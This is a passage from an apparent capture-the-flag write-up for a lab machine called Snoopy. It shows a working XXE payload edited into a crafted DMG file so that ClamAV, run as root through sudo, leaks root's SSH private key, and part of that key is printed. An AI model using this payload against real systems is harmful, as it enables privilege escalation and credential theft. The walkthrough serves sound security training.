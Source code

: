 Next I’ll turn that into a DMG:

```

root@39e742dc1260:/exploit# dmg dmg test.img test.dmg
Processing DDM...
No DDM! Just doing one huge blkx then...
run 0: sectors=512, left=724
run 1: sectors=212, left=212
Writing XML data...
Generating UDIF metadata...
Master checksum: ffac019f
Writing out UDIF resource file...
Cleaning up...
Done

```

Finally, I’ll use `bbe` (the [binary block editor](https://linux.die.net/man/1/bbe)) to edit in the XXE, modifying the command from GitHub to read root’s ssh key instead of `/etc/passwd`:

```

root@39e742dc1260:/exploit# bbe -e 's|<!DOCTYPE plist PUBLIC "-//Apple Computer//DTD PLIST 1.0//EN" "http://www.apple.com/DTDs/PropertyList-1.0.dtd">|<!DOCTYPE plist [<!ENTITY xxe SYSTEM "/root/.ssh/id_rsa"> ]>|' -e 's/blkx/&xxe\;/' test.dmg -o exploit.dmg

```

I’ll exit the container and (because I was working out of the mapped directory), `exploit.dmg` is there. I’ll `scp` it to Snoopy:

```

oxdf@hacky$ scp -i ~/keys/ed25519_gen exploit.dmg sbrown@snoopy.htb:/home/sbrown/scanfiles
exploit.dmg                                                            100%  217KB 464.4KB/s   00:00

```

And scan it as root:

```

sbrown@snoopy:~$ sudo clamscan --debug /home/sbrown/scanfiles/exploit.dmg
LibClamAV debug: searching for unrar, user-searchpath: /usr/local/lib
LibClamAV debug: unrar support loaded from /usr/local/lib/libclamunrar_iface.so.11.0.0
LibClamAV debug: Initialized 1.0.0 engine
LibClamAV debug: Initializing phishcheck module
...[snip]...
LibClamAV debug: Descriptor[3]: Continuing after file scan resulted with: No viruses detected
LibClamAV debug: in cli_scanscript()
LibClamAV debug: matcher_run: performing regex matching on full map: 0+3329(3329) >= 3329
LibClamAV debug: matcher_run: performing regex matching on full map: 0+3329(3329) >= 3329
LibClamAV debug: hashtab: Freeing hashset, elements: 0, capacity: 0
LibClamAV debug: hashtab: Freeing hashset, elements: 0, capacity: 0
LibClamAV debug: Descriptor[3]: Continuing after file scan resulted with: No viruses detected
LibClamAV debug: cli_magic_scan: returning 0  at line 4997
LibClamAV debug: clean_cache_add: 0bf7a447855c6e598fe480a4a46d4988 (level 0)
LibClamAV debug: cli_scandmg: wanted blkx, text value is -----BEGIN OPENSSH PRIVATE KEY-----
b3BlbnNzaC1rZXktdjEAAAAABG5vbmUAAAAEbm9uZQAAAAAAAAABAAABlwAAAAdzc2gtcn
NhAAAAAwEAAQAAAYEA1560zU3j7mFQUs5XDGIarth/iMUF6W2ogsW0KPFN8MffExz2G9D/
4gpYjIcyauPHSrV4fjNGM46AizDTQIoK6MyN4K8PNzYMaVnB6IMG9AVthEu11nYzoqHmBf
...[snip]...

```
